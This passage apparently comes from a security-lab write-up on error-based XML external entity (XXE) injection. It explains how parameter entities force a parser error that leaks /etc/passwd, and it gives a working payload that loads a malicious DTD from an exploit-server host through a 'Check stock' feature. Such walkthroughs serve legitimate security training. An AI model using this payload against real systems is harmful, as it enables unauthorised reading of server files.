 * `%file` loads the contents of `/etc/passwd`.
* `%eval` dynamically defines a new parameter entity named `error` that references a non-existent file path containing `%file`.
* `%error` triggers the error by attempting to access an invalid path. This forces the XML parser to throw an error message that includes the content of `/etc/passwd`.

---

### 📤 Step 2: Send XXE Payload to Target

Send the following XML payload to the **"Check stock"** feature of the target application:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "https://exploit-0a89003a032db21e8245e131014c005d.exploit-server.net/malicious.dtd">
  %xxe;
]>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

![image](https://github.com/user-attachments/assets/b6b7ebc8-a0d4-448e-8e10-e3961fc31a7c)

---

### 📋 Expected Behavior

Since the application does **not display stock check results**, but **does return XML parsing errors**, the malicious payload triggers a parsing failure. The error message will include the expanded contents of `/etc/passwd` due to the forced invalid path.

Thus we can see lab is solved

![image](https://github.com/user-attachments/assets/231e59c9-2232-4739-a653-22a2e72c4127)

---


### ✅ Key Takeaway

#### 📄 Reading Multi-line Data via Error-Based XXE

1. **Use FTP or file URI** — Remember, XXE can abuse various URI schemes like `ftp://`, `file://`, etc.
2. **Trigger XML Parsing Errors** — If the app reflects XML parsing errors, you can embed file content in the error response.

---

#### 💥 Execution Logic
